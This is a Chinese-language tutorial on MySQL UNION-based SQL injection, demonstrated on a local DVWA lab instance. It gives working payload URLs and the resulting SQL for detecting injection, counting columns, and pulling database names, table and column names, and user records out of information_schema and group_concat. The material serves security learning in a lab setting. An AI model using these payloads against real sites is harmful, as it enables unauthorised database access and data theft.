# MySQL联合查询注入流程

## 判断是否存在注入点

一般利用英文**单引号(')**或者**双引号（"）**来判断是否存在漏洞，如果出现SQL语句错误说明有很大的可能会存在漏洞。

能会存在漏洞。 比如某网站的URL为http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#，此时URL实际向服务器传递了值为1的变量id，后端向数据库获取数据的SQL语句为：

```
SELECT first_name, last_name FROM users WHERE user_id = '1';
```



此时服务器就会从users表中把满足user_id=1这个条件的行（记录）的first_name, last_name查询出来。

在网站里显示为：



当输入单引号（'）的时候http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=1'&Submit=Submit#，SQL语句就变为了

```
SELECT first_name, last_name FROM users WHERE user_id = '1'';
```

可以看到多了一个单引号，因为单引号不匹配，就会报错，并且看到报错信息。

如果能引起数据库的报错，说明用户是可以对查询语句进行修改的，说明存在漏洞。



## 判断注入类型

判断注入类型是数字型还是字符型，这涉及到在注入的过程中是否需要添加单引号，可以使用：

### 法一：and

and 逻辑与，当条件表达式两边都为真才是真，有一边为假则是假

* 1 and 1=1 
* 1 and 1=2 

进行判断，如果输入“1 and 1=1”和“1 and 1=2”页面的查询结果都返回相同的内容，说明不是数字型注入。既然不是数字型，那就有很大的可能是字符型注入了。 

如果是字符型则需要对单引号（'）进行闭合，因为MySQL中的引号都是成双成对出现的。 

> 思考：为什么从以上方法中可以判断出注入的类型呢？ 

首先回到数字型注入和字符型注入的定义，当用户输入上方的判断语句时，如果是数字型注入，则 SQL语句变成了 

```
SELECT first_name, last_name FROM users WHERE user_id = 1 and 1=1; 
SELECT first_name, last_name FROM users WHERE user_id = 1 and 1=2; 
```

如果是字符型注入，则变成了

```
SELECT first_name, last_name FROM users WHERE user_id = '1 and 1=1'; 
SELECT first_name, last_name FROM users WHERE user_id = '1 and 1=2'; 
```

数据库会把用户输入的内容当成了一体进行查询，将以上四条语句拿到数据库里执行，可以看到前两条语句会返回不一样的内容，后两条语句会返回相同的内容。 



> 思考：为什么后两条语句同样是用and，但是输出的内容是相同的？ 

这个涉及到了MySQL的隐式类型转换，简单来说就是 

```
'2admin'	 ==>	2
'admin'		 ==>	0 
'33admin'	 ==>	33
’33admin45a‘ ==>	33
’1+1‘		 ==>	1
```

所以就是两条语句都通过转换变为了1。

### 法二：1asdf

仍以某网站为例，当URL为http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=1asdf&Submit=Submit#，后端执行的SQL语句可能为以下两个SQL语句中的其中一个

```
SELECT first_name, last_name FROM users WHERE user_id = 1asdf; 							——————数字型
SELECT first_name, last_name FROM users WHERE user_id = '1asdf'; 						——————字符型
```

* 有报错则为数字型，数字型仅有0-9的数字，无法识别
* 无报错则为字符型，输出结果一致的情况请参考隐式类型转换。

### 法三：1+1

* `%2b`是`+`的URL编码

仍以某网站为例，当URL为http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=1%2b1&Submit=Submit#，后端实际执行的SQL语句可能为以下两个SQL语句中的其中一个

```
SELECT first_name, last_name FROM users WHERE user_id = 1+1; 							——————数字型
<=>SELECT first_name, last_name FROM users WHERE user_id = 2;

SELECT first_name, last_name FROM users WHERE user_id = '1+1'; 							——————字符型
<=>SELECT first_name, last_name FROM users WHERE user_id = 1;
```

当`1+1`和`1`的执行结果一致的时候是字符型，不一致则为数字型

## 通过报错判断闭合方式

* 单行注释

  * `-- `  注意后面要留一个空格

  * `#`

    %23

## 判断列数

* `order by`

  特性：当`order by`的数字大于当前的列数时候就会报错，SQL注入则利用这个特性来判断列数。

仍然以某网站为例，当`order by 2`时，后端程序执行的SQL语句为：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2#';
```

回显正常：



当`order by 3`时，后端程序执行的SQL语句为：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 3#';
```

发生了报错：



* 图中URL的%23为井号（#）进行了url编码，是为了将SQL语句中多余的单引号注释掉，GET型注入可以使用`#`号的URL编码`%23`或者`--+`进行注释。
* `%20`是空格的URL编码

## 确定显示位

在一个网站的正常页面，服务端执行SQL语句查询数据库中的数据，客户端将数据展示在页面中，这个展示数据的位置就叫显示位。

* `union`

  用于合并两个或多个 `SELECT `语句的结果集，`UNION` 结果集中的列名总是等于` UNION `中第一个` SELECT `语句中的列名，并且`UNION `内部的 `SELECT `语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条`SELECT `语句中的列的顺序必须相同。

仍然以某网站为例，试一下`union select 1,2`，后端执行的SQL语句为：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' union select 1,2#';
```

网站回显为：



但是在实战中一般不查询`union`左边的内容，一是因为程序在展示数据的时候通常只会取结果集的第一行数据，二是因为`union`左边查询出来的内容对我们基本没用。所以，只要让第一行查询的结果是空集，即`union`左边的`select`子句查询结果为空，那么`union `右边的查询结果自然就成为了第一行，打印在网页上了。所以让`union`左边查询不到，可以将其改为负数或者改为比较大的数字。

## 获取数据

###  获取数据库名、数据库版本

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27%20union%20select%20database(),version()%23&Submit=Submit#

SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1' union select database(),version()#';
```

网站回显



### 获取数据库中的表名

* `group_concat`

  ```
  GROUP_CONCAT(
  			[DISTINCT] expr [,expr ...]             
  			[
  			ORDER BY {unsigned_integer | col_name | expr}                 
  				[ASC | DESC] [,col_name ...]
  			]             
  			[SEPARATOR *str_val*]
  			)
  ```

  将多行数据按照指定的顺序连接成一个字符串，默认以逗号分隔。

#### 方法一：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,table_name from Information_schema.tables where table_schema = database()#';
```

一个表名为一个回显



#### 方法二：

有时候回显只会显示第一行，所以就需要将表名拼接成一个字符串，URL和SQL语句如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(table_name) from Information_schema.tables where table_schema = database()#';
```



#### 方法三：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,(select%20group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database())%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,(select group_concat(table_name) from Information_schema.tables where table_schema = database())#';
```



### 获取数据库中某个表的字段

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(column_name)%20from%20Information_schema.columns%20where%20table_schema=%27dvwa%27%20and%20table_name=%27users%27%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(column_name) from Information_schema.columns where table_schema='dvwa' and table_name='users'#';
```



### 获取数据库中某个表中的记录

方法同获取表名一样，例子如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(user)%20from%20dvwa.users%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(user) from dvwa.users#';
```

